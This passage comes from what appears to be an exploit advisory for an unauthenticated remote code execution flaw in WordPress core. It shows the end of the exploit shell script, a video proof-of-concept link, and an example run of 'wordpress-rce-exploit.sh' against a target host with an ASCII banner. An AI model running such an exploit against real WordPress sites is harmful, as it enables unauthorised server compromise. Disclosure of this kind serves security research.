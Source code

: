 	fi
	
	
	echo "Exiting..."
	exit 0
	
	
	
	
	Video PoC
	~~~~~~~~~~~~
	
	https://www.youtube.com/watch?v=ZFt_S5pQPX0
	
	
	
	Example run
	~~~~~~~~~~~~~~~
	
	# ./wordpress-rce-exploit.sh http://wp-host/wordpress/
	
	                        .;lc'
	                    .,cdkkOOOko;.
	 _______        ., ________     ________      _______
	 \  ___/_ ____ '___\      /_____\      _______\_   _/_
	 /  _/   \\   \/   /   __/     //   |  \_____//       \
	/_________>>      < __/  /    /-\ ____ /     \ _______/
	          <___/\___>    /________/    /_______>
	     .ddc;,,:c;.         ,c:         .cxxc:;:ox:
	     .dxxxxo,     .,   ,kMMM0:.  .,     .lxxxxx:
	     .dxxxxxc     lW. oMMMMMMMK  d0     .xxxxxx:
	     .dxxxxxc     .0k.,KWMMMWNo :X:     .xxxxxx:
	     .dxxxxxc      .xN0xxxxxxxkXK,      .xxxxxx:
	     .dxxxxxc    lddOMMMMWd0MMMMKddd.   .xxxxxx:
	     .dxxxxxc      .cNMMMN.oMMMMx'      .xxxxxx:
	     .dxxxxxc     lKo;dNMN.oMM0;:Ok.    'xxxxxx:
	     .dxxxxxc    ;Mc   .lx.:o,    Kl    'xxxxxx:
	     .dxxxxxdl;. .,               .. .;cdxxxxxx:
	     .dxxxx ________          ____  _____ xxxxx:
	      .':ox \      /_ ________\   \/    / xxc,.
	          . /     /  \\        >       <  x,
	           /          /   |   /   /\    \
	           \_________<_______<____> \____>
	                    .':odx.ckxl,.
	                        .,.'.
	
	                 | ExploitBox.io |
	
	+ --=| Wordpress Core - Unauthenticated RCE Exploit  |
	+ --=|                                               |
	+ --=|          Discovered & Coded By                |
	+ --=|               Dawid Golunski                  |
	+ --=|         https://legalhackers.com              |
	+ --=|                                               |
	+ --=| "With Great Power Comes Great Responsibility" |
	+ --=|        * For testing purposes only *          |
	